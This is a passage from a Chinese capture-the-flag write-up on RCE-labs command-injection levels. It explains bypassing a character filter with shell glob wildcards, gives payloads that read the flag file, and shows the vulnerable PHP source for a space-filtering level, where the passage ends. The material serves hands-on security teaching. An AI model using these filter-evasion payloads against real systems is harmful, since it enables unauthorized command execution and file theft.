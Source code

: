 ```php
?>
```

被过滤的要如下符号    能用的只有目录分隔符和字母a

```php
b-zA-Z：匹配所有小写和大写英文字母。
_：匹配下划线字符。
@：匹配@符号。
#：匹配井号字符。
%：匹配百分号字符。
^：匹配脱字符。
&：匹配与符号。
*：匹配星号字符。
:：匹配冒号字符。
{}：匹配大括号。
[]：匹配方括号。
\：匹配反斜杠字符。
+：匹配加号字符。
<>：匹配小于号和大于号。
"：匹配双引号字符。
|：匹配竖线字符。
`：匹配反引号字符。
;：匹配分号字符
```

可以尝试在Linux终端中做下面的几个实验，使用echo方法输出?匹配的字符串

```php
echo /???/???
echo /???/?a?
echo /???/?a??64
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737016607219-03c4c61a-6804-4030-97c7-194caff3eeba.png)

所以可以利用 /bin/cat /flag 或者 /bin/base64 /flag 去寻找flag 有payload

```php
?cmd=/???/?a? /??a?                  //payload1
?cmd=/???/?a??64 /??a?                //payload2
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737016892197-acd3e3a4-ce26-4e60-8451-c7f1a111ac5d.png)

payload2

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737016987340-b679c4d2-14b1-4f1e-81ee-ab965c0829de.png)

解密后得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737017023297-e2b52022-aa87-4ca0-99ad-caa1f518007e.png)

### [RCE-labs]Level 7 - 空格过滤
```php
<?php
function hello_shell($cmd){
    if(preg_match("/flag| /", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);
```